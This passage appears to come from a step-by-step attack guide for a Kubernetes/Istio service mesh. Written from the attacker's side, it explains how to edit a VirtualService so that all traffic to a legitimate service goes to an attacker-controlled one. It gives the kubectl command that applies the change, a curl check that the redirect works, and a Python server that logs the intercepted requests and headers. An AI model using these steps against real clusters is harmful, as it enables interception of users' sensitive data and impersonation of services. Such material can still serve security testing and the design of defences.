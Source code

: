     #   weight: 100 # Route all traffic to the attacker's service
    # ...
    ```

    **Explanation:**  This step involves manually editing the `original_vs.yaml` file to redirect traffic from a legitimate service (e.g., `service-a`) to an attacker-controlled service. This is done by modifying the `destinations` section of the VirtualService to point to the attacker's service's IP address and port.  The weight is adjusted to route all traffic to the malicious service.
    **Expected Output:**  A modified YAML file with the updated routing rules.  This file will be used to apply the changes to the Kubernetes cluster.
    **Why:**  Redirecting traffic allows the attacker to intercept sensitive data, inject malicious code, or impersonate the original service.

3.  **Apply the Modified VirtualService:**

    ```bash
    kubectl apply -f modified_vs.yaml -n <YOUR_NAMESPACE>
    ```
    **Explanation:**  This command applies the modified YAML file to the Kubernetes cluster, updating the VirtualService with the attacker's malicious routing rules.
    **Expected Output:**  A confirmation message indicating that the VirtualService has been updated. The traffic to the original service should now be redirected to the attacker-controlled service.
    **Why:** This command activates the malicious routing, allowing the attacker to intercept traffic.

4.  **Verify the Traffic Redirection:**

    ```bash
    # Send a request to the original service and observe if the traffic is redirected to the attacker's service.
    # Example:
    curl service-a.<YOUR_NAMESPACE>.svc.cluster.local
    ```
    **Explanation:** This command sends a request to the original service and observes the response. If the traffic is redirected, the response will come from the attacker-controlled service instead of the legitimate service.
    **Expected Output:** The response from the attacker-controlled service.  This confirms that the traffic redirection was successful.
    **Why:** This step confirms that the attack is working as expected and that the attacker is now able to intercept traffic.

5. **(Attacker controlled service): Logging/Intercepting data from redirected traffic**

   ```python
   # Simple Python example for capturing redirected HTTP requests
   from http.server import BaseHTTPRequestHandler, HTTPServer

   class RequestHandler(BaseHTTPRequestHandler):
       def do_GET(self):
           print("Received request:", self.path)
           print("Headers:", self.headers)
           # Optionally, forward the request to the original service
           # and return the response to the client.
           self.send_response(200)
           self.send_header('Content-type', 'text/html')
           self.end_headers()
           self.wfile.write(b"<html><body><h1>Request intercepted!</h1></body></html>")

   server_address = ('', 80)  # Listen on all interfaces, port 80
   httpd = HTTPServer(server_address, RequestHandler)
   ```